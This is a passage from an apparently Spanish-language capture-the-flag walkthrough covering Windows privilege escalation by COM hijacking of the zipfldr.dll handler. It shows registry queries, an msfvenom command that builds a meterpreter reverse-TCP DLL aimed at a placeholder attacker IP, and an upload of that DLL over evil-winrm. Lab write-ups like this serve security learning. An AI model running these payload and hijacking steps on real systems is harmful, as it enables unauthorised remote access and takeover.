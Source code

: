Veremos que ha funcionado, por lo que seremos dicho usuario.

## Escalate user MM.TURNER

Ahora siendo dicho usuario recordemos que estamos en el grupo `SUPPORT` el cual puede modificar el registro y funciones relacionadas con la compresión/descompresión.

### COM Hijacking

Vamos a Identificar `COM objects` usados por aplicaciones privilegiadas de esta forma:

```powershell
Get-ItemProperty "Registry::HKEY_CLASSES_ROOT\CLSID\{E88DCCE0-B7B3-11d1-A9F0-00AA0060FA31}\InprocServer32" -Name "(default)"
```

Info:

```
(default)    : C:\Windows\system32\zipfldr.dll
PSPath       : Microsoft.PowerShell.Core\Registry::HKEY_CLASSES_ROOT\CLSID\{E88DCCE0-B7B3-11d1-A9F0-00AA0060FA31}\Inpro
               cServer32
PSParentPath : Microsoft.PowerShell.Core\Registry::HKEY_CLASSES_ROOT\CLSID\{E88DCCE0-B7B3-11d1-A9F0-00AA0060FA31}
PSChildName  : InprocServer32
PSProvider   : Microsoft.PowerShell.Core\Registry
```

El `CLSID` `{E88DCCE0-B7B3-11d1-A9F0-00AA0060FA31}` corresponde a **zipfldr.dll** (Compressed Folders Handler). Este se ejecuta cuando se abren archivos ZIP en el Explorador de Windows.

Vamos a generar un `payload` malicioso que sea una `.dll` con `msfvenom` para poder aprovechar este `Hijacking 7-Zip`.

```shell
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP_ATTACKER> LPORT=<PORT> -f dll -o 7zhack.dll
```

Info:

```
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of dll file: 9216 bytes
Saved as: 7zhack.dll
```

Una vez generado nuestro `payload` vamos a pasarnoslo a la maquina atacante, recordemos que teniamos una `shell` con el usuario `a` por `evil-winrm` por lo que vamos a utilizarla para desplazarnos a la carpeta `Temp` y subir el archivo asi:

```powershell
C:\Windows\Temp
upload 7zhack.dll
```
